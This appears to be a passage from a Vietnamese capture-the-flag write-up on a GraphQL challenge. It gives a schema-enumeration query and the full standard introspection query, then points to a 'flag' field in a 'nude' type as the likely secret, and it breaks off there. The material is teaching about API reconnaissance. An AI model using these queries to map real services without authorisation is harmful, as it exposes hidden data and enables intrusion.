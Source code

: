 ```
query={__schema{types{name,fields{name}}}}
```

![1](img/57/6.png)

- Ở đây chúng ta thấy có 4 types chính là `user, post, nude, comment`.

- Hiển thị chi tiết toàn bộ field và args cho từng field. (tương tự như đi leak thông tin trong SQL) (https://gist.github.com/craigbeck/b90915d49fda19d5b2b17ead14dcd6da)

```
query IntrospectionQuery {__schema {queryType { name }mutationType { name }subscriptionType { name }types {...FullType}directives {\n        name\n        description\n        args {\n          ...InputValue\n        }}}}\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n        }\n      }\n    }\n  }
```

- Chúng ta thấy ở trong `nude` có `flag`, khả năng cao là secret mà chúng ta cần tìm đang nằm ở đây:
